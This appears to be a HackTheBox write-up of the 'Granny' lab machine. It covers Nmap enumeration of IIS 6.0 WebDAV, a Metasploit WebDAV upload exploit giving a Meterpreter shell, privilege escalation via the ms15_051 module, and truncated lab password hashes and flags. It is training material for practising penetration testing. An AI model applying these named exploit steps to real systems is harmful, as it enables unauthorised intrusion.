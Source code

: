 [HackTheBox] Granny
===============
date: 04/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_granny/infocard.png)

This is a writeup for HTB VM [Granny](https://www.hackthebox.eu/home/machines/profile/14). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_granny/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Mon Nov  4 13:35:36 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.granny/results/10.10.10.15/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.granny/results/10.10.10.15/scans/xml/_quick_tcp_nmap.xml 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up, received user-set (0.051s latency).
Scanned at 2019-11-04 13:35:37 PST for 21s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   WebDAV type: Unkown
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Mon, 04 Nov 2019 21:36:04 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  4 13:35:58 2019 -- 1 IP address (1 host up) scanned in 21.97 seconds
```

2\. We look for IIS 6.0 vulnerabilities and find multiple WebDAV related hits:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_granny/screenshot01.png)  

### Findings
#### Open Ports:
```
80/tcp  |  http  |  Microsoft IIS httpd 6.0
```

## Phase #2: Exploitation
1\. We decide to use the Metasploit `windows/iis/iis_webdav_upload_asp` exploit and it successully gives us a Meterpreter shell:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_granny/screenshot02.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_granny/screenshot03.png)  

## Phase #2.5: Post Exploitation
```
ntauth/network@GRANNY> id
NT AUTHORITY\NETWORK SERVICE
ntauth/network@GRANNY>  
ntauth/network@GRANNY> uname
Computer        : GRANNY
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 3
Meterpreter     : x86/windows
ntauth/network@GRANNY>  
ntauth/network@GRANNY> ifconfig
Ethernet adapter Local Area Connection:
 Connection-specific DNS Suffix  . :
 IP Address. . . . . . . . . . . . : 10.10.10.15
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 10.10.10.2
ntauth/network@GRANNY>  
ntauth/network@GRANNY> users
Administrator
Lakis
```

## Phase #3: Privilege Escalation
1\. Since we have certain restrictions that stop us from running commands like `getuid`, we have to migrate to a different process. We find the PID for process `davcdata.exe` and migrate to it:  

![writeup.privesc.steps.1.1](/static/files/posts_htb_granny/screenshot04.png)  

2\. We can now use the Metasploit `multi/recon/local_exploit_suggester` module to look for privesc options:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_granny/screenshot05.png)  

3\. We tried a few exploits from this list and eventually the `windows/local/ms15_051_client_copy_image` module worked and provided an elevated session:  

![writeup.privesc.steps.3.1](/static/files/posts_htb_granny/screenshot06.png)  

![writeup.privesc.steps.3.2](/static/files/posts_htb_granny/screenshot07.png)  

4\. We then obtain further information about the system and read the contents of both user.txt and root.txt files to comeplete the challenge:  
```
cat "C:\Documents and Settings\Lakis\Desktop\user.txt"
cat "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_granny/screenshot08.png)  

## Loot
### Hashes
```
Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e.................
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f589................
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c...............
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b7.................
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f615.................
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6................
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e..................
```
### Flags
```
C:\Documents and Settings\Lakis\Desktop\user.txt: 700c5dc163014e22................
C:\Documents and Settings\Administrator\Desktop\root.txt: aa4beed1c05844..................
```

## References
* <https://www.hackthebox.eu/home/machines/profile/14>  
* <https://marcelowoloszyn.cl/hackthebox/hack-the-box-write-up-granny/>  
* <https://reboare.github.io/hackthebox/htb-granny.html>  
